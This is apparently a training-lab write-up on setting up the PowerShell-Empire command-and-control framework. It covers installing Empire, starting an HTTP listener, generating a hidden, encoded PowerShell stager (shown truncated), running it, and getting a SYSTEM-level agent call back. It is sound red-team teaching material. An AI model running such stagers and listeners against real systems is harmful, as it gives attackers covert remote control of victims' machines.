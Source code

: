 In addition to being updated and modernized, the company responsible for maintaining PowerShell-Empire has also developed **Starkiller**, that is a GUI frontend for Empire. It is an Electron application written in VueJS and provides users with an intuitive way of interacting with Empire.

To install and set up PowerShell-Empire:
`sudo apt install powershell-empire starkiller -y`,
`sudo powershell-empire server`, `sudo powershell-empire client`.

### PowerShell-Empire for Persistence - Lab

#### Lab Solution

**Set up and run the PowerShell-Empire framework**.

`cd /root/tools`, `git clone https://github.com/BC-SECURITY/Empire.git`, `cd Empire`, `cd setup`, `./install.sh`.

`./ps-empire server`, `./ps-empire client`.

`cd /root/tools/Empire/setup`, `./cert.sh`:
```
[*] Certificate written to ../data/empire-chain.pem
[*] Private key written to ../data/empire-priv.key
```

`help`, `uselistener http`, `info`, `set CertPath /root/tools/Empire/data`, `execute`, `back`, `listeners`:
```
┌Listeners List──────┬───────────────────┬──────────────────────────────────────────┬─────────┐
│ ID │ Name │ Module │ Listener Category │ Created At                               │ Enabled │
├────┼──────┼────────┼───────────────────┼──────────────────────────────────────────┼─────────┤
│ 1  │ http │ http   │ client_server     │ 2024-04-03 12:59:54 IST (24 seconds ago) │ True    │
└────┴──────┴────────┴───────────────────┴──────────────────────────────────────────┴─────────┘
```

`usestager multi/launcher`, `info`, `set Listener http`, `execute`:
```
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBJAE8ATgBUAG ...
```

`powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBJAE8ATgBUAG ...`.

`agents`:
```
┌Agents──────────┬────────────┬─────────────┬──────────────────┬────────────┬──────┬───────┬─────────────────────────┬──────────┐
│ ID │ Name      │ Language   │ Internal IP │ Username         │ Process    │ PID  │ Delay │ Last Seen               │ Listener │
├────┼───────────┼────────────┼─────────────┼──────────────────┼────────────┼──────┼───────┼─────────────────────────┼──────────┤
│ 1  │ 2X18ML3W* │ powershell │ 10.2.31.174 │ WORKGROUP\SYSTEM │ powershell │ 2256 │ 5/0.0 │ 2024-04-03 13:03:09 IST │ http     │
│    │           │            │             │                  │            │      │       │ (3 seconds ago)         │          │
└────┴───────────┴────────────┴─────────────┴──────────────────┴────────────┴──────┴───────┴─────────────────────────┴──────────┘
```
